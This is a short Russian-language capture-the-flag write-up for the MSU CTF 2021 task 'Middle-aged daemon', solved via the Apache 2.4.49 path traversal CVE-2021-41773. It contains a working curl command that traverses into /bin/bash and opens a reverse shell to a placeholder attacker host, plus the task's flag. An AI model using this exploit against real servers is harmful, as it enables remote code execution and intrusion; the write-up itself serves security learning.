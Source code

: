 # Middle-aged daemon

_http://middle-aged-daemon.tasks.2021.ctf.cs.msu.ru:8080_

### Solution

Делаем GET запрос на ссылку из условия и в ответе ищем заголовок Server, по подсказке из названия таска. _Server: Apache/2.4.49_.

Ищем в интернете уязвимости веб-сервера Apache версии 2.4.49 и находим CVE-2021-41773:
_https://www.exploit-db.com/exploits/50383_
 
С помощью утилиты curl используем данную уязвимость, чтобы прокинуть ревёрс-шелл.

```bash
curl --path-as-is "http://middle-aged-daemon.tasks.2021.ctf.cs.msu.ru:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash" -d 'A=|bash -i >& /dev/tcp/atacker_ip/port 0>&1'
```

Находим флаг с помощью ```find -iname flag``` и читаем его.

`
Flag: MSKCTF{et3rnal_cl4ss1cs_return}
`
